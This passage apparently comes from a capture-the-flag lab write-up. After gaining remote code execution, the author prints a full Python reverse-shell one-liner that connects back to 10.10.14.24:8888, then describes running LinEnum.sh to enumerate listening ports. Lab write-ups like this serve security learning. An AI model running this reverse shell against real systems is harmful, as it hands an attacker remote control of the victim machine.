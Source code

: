 ![](images/rceWorking.png)

## Reverse Shell
now that we have RCE we can get a reverse shell  
listen on port 8888 and visit URL with the following 'c' parameter  
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](images/reverseShell.png)

## netstat
I downloaded and ran LinEnum.sh, the listening TCP results were unusual because it was listening on port 22 which was close in the nmap results

![](images/listeningTCP.png)
